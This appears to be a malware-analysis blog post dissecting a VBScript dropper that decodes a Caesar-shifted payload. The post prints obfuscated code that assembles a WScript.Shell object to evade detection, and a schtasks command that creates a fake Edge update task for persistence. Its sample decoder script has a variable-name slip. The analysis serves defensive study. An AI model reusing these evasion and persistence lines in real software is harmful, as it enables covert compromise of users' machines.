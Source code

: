 - The server (64.49.14.181) is sending a Base64-encoded payload, which is decoded and saved as a ZIP file (t.zip). Once downloaded, the ZIP file is extracted, and the s.vbs script is executed.
- Let's get the ZIP file and see the contents inside it.

### Zip File
- The unzipped file contains 3 files 
	+ **R9147.vbs**
	+ **xM568.tmp**
	+ **s.vbs**
	
#### s.vbs
	
Let's have a look at s.vbs since it's executed first.
	
![s.vbs](https://cdn-images-1.medium.com/v2/resize:fit:1200/1*7w_MJIYKtCtsK8Mmz5Azng.png)

&rarr; The variable **iko9** stores the encoded payload and it's decoded using a simple for loop employing a Caeser Cipher. It decodes the variable using a simple character shifting (**chr(ce8-(4)))**). Once it's decoded , it executes **kouahpwya**. We can write a python script to decode.

```python

payload = "big big payload"
decoded = ""

for char in payload_2:
    decoded +=chr(ord(char) - 4)

print(decoded)
```
- Let's look at the VB script in parts since it's a bit long. 

```powershell

msnc = "om is the hosted versi" 
lopppc = "munity and frequent updates: Wo" 
On Error Resume Next '
' Garbage text to avoid static detection

mkc = "Scr" + "ipt." '"Script." string
smocv = "Set monce = W"
bothec = smocv + mkc + "CreateObj" 
jsm = bothec + "ect(""WS" + "cript.Shell""):" 
Execute jsm 
' Execute the command to create the WScript.Shell object
```

&rarr; The script begins by setting up a **WScript.Shell object**, which is a key component for running system commands. By concatenating various string segments to build up the object name, the script evades basic detection techniques. Once assembled, it executes the command to create this object, allowing it to interact with the system shell later in the code.

```powershell
cl = "cmd /c schtasks /create /sc minute /mo 1 /tn MicrosoftEdgeUpdateTaskMSCore[57174-71251-9342] /tr ""wscript //e:vbscript //b C:\\ProgramData\\07578.tmp"" /f"
monce.Run cl, 0, false

```
&rarr; This section of the script creates a scheduled task disguised as an Edge browser update. The task runs every minute, executing a hidden VBS script located at C:\\ProgramData\\07578.tmp. The purpose of this task is to maintain persistence.
